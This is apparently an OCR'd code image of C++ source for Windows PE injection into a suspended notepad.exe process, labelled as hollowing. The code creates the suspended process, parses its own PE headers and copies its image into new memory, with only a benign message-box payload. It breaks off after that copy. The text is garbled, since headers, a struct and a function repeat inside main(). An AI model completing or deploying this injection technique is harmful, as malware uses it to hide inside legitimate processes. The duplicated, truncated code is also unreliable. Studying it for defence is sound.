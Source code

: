 ```cpp
#include <Windows.h>
#include <winternl.h>
#include <stdio.h>
#include <iostream>

using namespace std;

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;

DWORD InjectionEntryPoint(LPSTR moduleName)
{
	GetModuleFileNameA(NULL, moduleName, 128);
	MessageBoxA(NULL, moduleName, "Hello world from: ", NULL);
	return 0;
}

int main()
{

#include <Windows.h>
#include <winternl.h>
#include <stdio.h>
#include <iostream>

using namespace std;

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;

DWORD InjectionEntryPoint(LPSTR moduleName)
{
	GetModuleFileNameA(NULL, moduleName, 128);
	MessageBoxA(NULL, moduleName, "Hello world from: ", NULL);
	return 0;
}

int main()
{

	// create destination process - this is the process to be hollowed out
	LPSTARTUPINFOA si = new STARTUPINFOA();
	LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
	PROCESS_BASIC_INFORMATION* pbi = new PROCESS_BASIC_INFORMATION();
	PULONG returnLenght = 0;

	CreateProcessA((LPSTR)"c:\\windows\\syswow64\\notepad.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, si, pi);

	// Get current image's base address
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);

	// Allocate a new memory block and copy the current PE image to this new memory block
	PVOID localImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);

```